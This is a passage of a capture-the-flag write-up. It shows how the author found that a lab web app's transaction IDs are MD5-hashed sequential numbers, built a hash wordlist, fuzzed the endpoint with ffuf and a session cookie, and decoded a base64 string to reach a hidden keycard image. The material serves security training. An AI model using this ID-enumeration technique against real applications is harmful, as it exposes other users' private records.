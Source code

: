 ![Web 5000 Transactions](web_5000_transactions.webp){: width="1000" height="500" }

Either by fuzzing or just guessing, we see that if we supply the `id` as a `GET` parameter, we receive the `Transaction not found` error.

![Web 5000 Transactions Two](web_5000_transactions2.webp){: width="1000" height="500" }

Since the application gives a valid ID after making a transaction, supplying that in the `id` parameter instead, we receive the details for the transaction.

![Web 5000 Transactions Three](web_5000_transactions3.webp){: width="1000" height="500" }

At this point, we notice that the transaction IDs given seem like an `MD5` hash. Trying to confirm this by cracking it, we can see it is just a sequential number `MD5` hashed.

![Transaction Id Hash](transaction_id_hash.webp){: width="1000" height="400" }

### Fuzzing for Transactions

Knowing this, we can generate a wordlist for all the numbers between `1-1400`, `MD5` hashed as follows:

```console
$ for i in $(seq 1 1400); do echo -n $i | md5sum | cut -d ' ' -f 1 >> transaction_ids.txt; done
```

Now, using this wordlist to fuzz for transaction IDs, we see an interesting response for the `ff49cc40a8890e6a60f40ff3026d2730` transaction ID, which is the `MD5` hash of `1333`.

```console
$ ffuf -u 'http://10.10.122.98:5000/transactions?id=FUZZ' -H 'Cookie: session=eyJuYW1lIjoiZ2xpdGNoIiwidXNlciI6MTAxfQ.Z18RAA.7KsC3ZU-2npLogvEXOuJchNq7yU' -w transaction_ids.txt -mc all -fc 404 -t 100
...
0e55666a4ad822e0e34299df3591d979 [Status: 200, Size: 126, Words: 13, Lines: 7, Duration: 120ms]
28e209b61a52482a0ae1cb9f5959c792 [Status: 200, Size: 129, Words: 13, Lines: 7, Duration: 523ms]
ff49cc40a8890e6a60f40ff3026d2730 [Status: 200, Size: 201, Words: 13, Lines: 7, Duration: 558ms]
9cb67ffb59554ab1dabb65bcb370ddd9 [Status: 200, Size: 128, Words: 13, Lines: 7, Duration: 953ms]
3d779cae2d46cf6a8a99a35ba4167977 [Status: 200, Size: 128, Words: 13, Lines: 7, Duration: 127ms]
c73dfe6c630edb4c1692db67c510f65c [Status: 200, Size: 126, Words: 13, Lines: 7, Duration: 97ms]
8edd72158ccd2a879f79cb2538568fdc [Status: 200, Size: 129, Words: 13, Lines: 7, Duration: 512ms]
```
{: .wrap }

Checking the details for this transaction, we see an interesting `base64` encoded string in the status.

![Web 5000 Transactions Four](web_5000_transactions4.webp){: width="1000" height="500" }

Decoding this string, we are able to discover the endpoint for the keycard.

```console
$ echo 'SGk[REDACTED]ZyA=' | base64 -d
Hi McSkidy <3 /se[REDACTED]37.png
```

Visiting this endpoint on the web application, we find the keycard with the password on it being: `Bl[REDACTED]TW`.
